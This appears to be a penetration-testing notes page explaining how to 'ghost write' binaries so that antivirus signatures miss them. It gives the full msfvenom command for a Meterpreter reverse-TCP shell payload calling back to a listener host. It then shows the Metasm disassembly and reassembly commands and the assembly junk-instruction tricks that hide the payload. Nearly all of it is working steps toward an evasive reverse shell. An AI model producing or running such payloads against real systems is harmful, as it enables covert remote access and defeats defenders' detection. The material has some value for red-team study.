 # Ghost Writing Binaries

* Changing of the Assembly source code, to alter the well known signature used by anti-virus engines.
* Overview

```
Create a .exe
Convert it to .asm 
Edit the .asm file
Convert back to .exe 
```

* Most of the time you dont want to alter the functionality of the binary.
* Some additional (outside of Ghostwriting) things that can help with evading signatures are:

```
Removing the Help menu of a tool
Removing instances of the tool name in the source code
```

### Ghost Writing How To

* Generate a `msfvenom` payload for example

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f raw -o payload.raw --platform windows -a x86
```

* Now that you have a raw payload, convert it to ASCII `asm source`
* The Metasm script is a great option to accomplish this&#x20;
* [https://github.com/jjyg/metasm](https://github.com/jjyg/metasm)

```
ruby /opt/metasm/samples/disassemble.rb payload.raw > payload.asm
```

* Now open the file in `gedit`

### Obfuscation of ASM File

* At the very top of the file add:

```
.section '.text' rwx
.entrypoint
```

* Now start by finding any instance of `xor` where a register is `xor` (ed) against itself.
* When something is `xor` against it self, it will clear the register to a value of 0
* For example look for something like this

```
xor eax, eax
```

* Because the normal code execution will clear out any value in `eax` we can add additional instructions before the `xor`
* Thus we can add this in before the `xor` statement&#x20;

```
push eax
pop eax
xor eax, eax
```

* Also feel free to add in other additional irrelevant instructions before an `xor` occurs.  Remember only where an operand is `xor` with itself.
* Also can add `nop` instructions into the program at the correct places.
* Testing is your best friend here

### Convert Back&#x20;

* Once you are done altering the `asm` it is time to convert it back to an `exe`&#x20;

```
ruby /opt/metasm/samples/peencode.rb payload.asm -o payload.exe
```
